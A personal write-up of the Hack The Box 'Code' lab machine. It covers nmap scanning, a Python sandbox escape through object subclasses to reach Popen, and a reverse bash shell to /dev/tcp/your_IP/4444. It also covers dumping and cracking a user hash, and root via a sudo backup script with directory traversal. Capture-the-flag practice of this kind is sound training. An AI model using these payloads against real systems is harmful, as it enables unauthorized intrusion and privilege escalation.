 # Write Up for The HTB Code Box

## Enumeration

Launching into the Box my IP was `10.10.11.62`

Using Nmap I will Scan the Ip for open Ports `nmap -sC -sV -T4 <ip>`

<img width="823" height="302" alt="codenmap" src="https://github.com/user-attachments/assets/36c801b6-5cd0-44a4-bd8c-43fda50e19ad" />

Http webside on port 5000. Looking at the website it sanitises the inputs you give it.

# Exploitation

On a meduim Writeup I saw you can display exceptions! So i try `print((()).__class__.__bases__[0].__subclasses__())` I see alot of classes and need the Popen one to spawn a shell. 

I used microsoft word as a find tool and got `raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)` perfect!

<img width="973" height="61" alt="popen" src="https://github.com/user-attachments/assets/426198a4-6ba7-4839-a9f2-eb5ec728126d" />

Write a shell to get in `raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))`

After that got my shell as app-prodution. Looking for files to write to I find a data base .db hmmm `cd instance sqlite3 database.db.tables SELECT * FROM USER;`

<img width="469" height="156" alt="sqlicode" src="https://github.com/user-attachments/assets/e29e2a98-e7c3-46bf-9bb5-5260357dd3df" />

I used Crackstation to then find martins password and logged in via ssh 

# Root Flag

Next I used `sudo -l` to see any commands that can be run 

<img width="793" height="141" alt="sudocode" src="https://github.com/user-attachments/assets/7b23ef0a-2501-4617-9c41-9ec17b2e8f1d" />

Looking into the file its a backup file that uses task.json which just backups any directory

I tried to get it to back up the root directoy but that failed so I looked up directory traversial methods and got my answer.

I modified the task.json file and ran it

<img width="610" height="194" alt="task" src="https://github.com/user-attachments/assets/b2fbca72-f321-4e22-a135-441d99263b05" />

<img width="803" height="75" alt="rootflagcode" src="https://github.com/user-attachments/assets/4ac8c299-2cee-4eff-bc1e-59b0962e009f" />

Unzip the folder and go into the root and the `root.txt` flag is there
